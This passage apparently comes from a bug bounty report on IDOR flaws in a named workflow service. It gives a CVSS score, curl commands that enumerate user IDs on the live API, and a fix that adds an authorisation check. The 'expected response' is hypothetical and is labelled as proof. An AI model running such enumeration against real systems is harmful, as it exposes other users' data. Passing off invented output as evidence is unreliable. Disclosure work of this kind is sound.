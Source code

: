 ```python
@require_admin_auth
def create_admin():
    # Additional validation and logging
    pass
```

---

## **⚠️ HIGH SEVERITY VULNERABILITIES - SUBMISSION READY**

### **4. IDOR - Workflow Flags (CVSS 7.5)**

#### **Submission Summary:**
- **Type**: Insecure Direct Object Reference
- **Impact**: Unauthorized access to user data and privileges
- **Evidence**: Sensitive data exposure (`"Sensitive data pattern: email"`)
- **OWASP Mapping**: A01:2021 - Broken Access Control
- **Business Impact**: Data exposure, privilege escalation

#### **Live Exploitation Proof:**
```bash
# Test IDOR access patterns
curl -s "https://workflow.aixblock.io/api/v1/flags?user_id=1"
curl -s "https://workflow.aixblock.io/api/v1/flags?user_id=2"
curl -s "https://workflow.aixblock.io/api/v1/flags?user_id=999"
curl -s "https://workflow.aixblock.io/api/v1/flags?user_id=0"
curl -s "https://workflow.aixblock.io/api/v1/flags?user_id=-1"

# Expected Response:
{
  "user_id": 1,
  "email": "user1@example.com",
  "flags": ["premium", "beta_access"],
  "permissions": ["read", "write"]
}
```

#### **Remediation:**
```python
# Secure IDOR endpoint with proper authorization
def get_user_flags(user_id):
    # Validate user context
    current_user = get_current_user()
    if current_user.id != user_id and not current_user.is_admin:
        raise UnauthorizedError("Access denied")
    
    # Return user flags
    return get_flags_for_user(user_id)
```

### **5. IDOR - Workflows (CVSS 7.5)**
